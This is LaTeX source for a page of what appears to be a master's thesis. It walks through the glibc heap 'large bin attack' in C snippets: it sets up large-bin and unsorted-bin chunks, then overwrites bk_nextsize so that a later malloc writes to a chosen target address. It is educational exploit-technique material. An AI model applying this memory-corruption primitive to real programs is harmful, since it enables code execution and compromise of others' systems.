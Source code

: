 \documentclass{masterthesis}
\newcommand*\ub{unsorted bins}
\newcommand*\lb{large bins}
\newcommand*\freec{\lstinline{free}}
\begin{document}
As the name suggests, this attack is about the \lb{}. The goal is to force a \lb{} to write data in a controlled location.

\begin{lstlisting}[language=c,frame=tlrb]
size_t target = 0;
size_t *p1 = malloc(0x428);
size_t *g1 = malloc(0x18);
size_t *p2 = malloc(0x418);
size_t *g2 = malloc(0x18);
\end{lstlisting}

The first step is to define the target; also, we need to define two chunks in the range size of \lb{}; moreover, we need to define two chunks between them to prevent them from merging or the top chunk.

\begin{lstlisting}[language=c,frame=tlrb]
free(p1);
size_t *g3 = malloc(0x438);
\end{lstlisting}

In the second step, we free the most significant chunk; however, the freed chunk is not in the \lb{} yet. As we discussed, \freec{} added the freed chunk to \ub{} at first, so, The best way to move it into the \lb{} is to allocate a new bigger chunk. In this way, the heap manager checks the chunk inside the \ub{}, then adds them into the corresponding bins (Like other attacks).

\begin{lstlisting}[language=c,frame=tlrb]
free(p2);
\end{lstlisting}

In the third step, we freed the smaller chunk. Now we have one chunk inside the \lb{} and one chunk in the \ub{}.

\begin{lstlisting}[frame=tlrb]
unsorted_bins[0]: fw=0x5555555596e0, bk=0x5555555596e0
Chunk(addr=0x5555555596f0, size=0x420, flags=PREV_INUSE)

large_bins[63]: fw=0x555555559290, bk=0x555555559290
Chunk(addr=0x5555555592a0, size=0x430, flags=PREV_INUSE)
 \end{lstlisting}

 The next step is to put the target address - 0x20 in the \lstinline{p1->bk_nextsize}. As we mentioned before, Just \lb{} chunk chunks use this pointer; they point to the next biggest chunk in the link list.

\begin{lstlisting}[language=c,frame=tlrb]
p1[3] = (size_t)((&target)-4);
size_t *g4 = malloc(0x438);
\end{lstlisting}
\end{document}
